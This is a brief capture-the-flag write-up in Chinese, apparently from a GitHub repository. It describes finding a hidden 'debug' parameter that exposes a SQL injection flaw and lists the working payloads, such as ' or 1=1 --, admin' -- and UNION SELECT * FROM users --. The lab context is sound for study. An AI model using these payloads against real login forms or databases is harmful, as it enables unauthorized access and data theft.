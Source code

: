 從原始碼或 burpsuite 可發現存在 hidden 變數 debug<br>
將 debug 值設為 1 即可發現存在 sql injection 漏洞

![image](https://github.com/dreamisadream/CTF/upload)

試了幾種後發現
-- 和 ; 可以用
＃ 會出錯

' or 1=1 --
' or 1=1 ;
admin' --
UNION SELECT * FROM users --
